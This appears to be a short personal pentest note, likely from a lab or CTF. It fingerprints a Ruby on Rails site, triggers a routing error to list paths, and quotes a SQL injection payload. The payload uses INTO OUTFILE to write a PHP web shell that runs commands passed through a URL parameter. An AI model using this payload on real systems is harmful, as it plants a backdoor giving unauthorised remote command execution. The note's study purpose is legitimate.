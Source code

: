 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Using Wappalyzer, we see Rub on Rails in Web frameworks.

![[Pasted image 20221108121650.png]]

Reviewing the url, we manipulate the path to spawn an error.

http://$TARGET/users/

http://$TARGET/x/

![[Pasted image 20221108121711.png]]

We now have a list of Paths for us to try.

Visting /slug, we get a text box.

[[1.2_MySQL#Using INTO OUTFILE to create a malicious PHP file:]] EXAMPLE 3


```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
